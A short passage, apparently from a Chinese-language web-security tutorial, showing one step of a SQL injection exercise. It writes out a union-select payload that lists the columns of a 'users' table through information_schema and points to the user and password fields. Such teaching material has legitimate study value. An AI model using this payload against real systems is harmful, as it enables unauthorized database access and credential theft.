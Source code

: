    ![img](../../img/15617955078723.jpg)

   图 5-13

   

9. 在文本框输入 `1' and 1=2 union select 1,group_concat(column_name) from information_schema.columns where table_name='users'#`，原第二个字段处显示 `users` 表中的所有字段名。其中发现 `user` 和 `password` 字段，极有可能是用户名和密码字段，如图 5-14

   
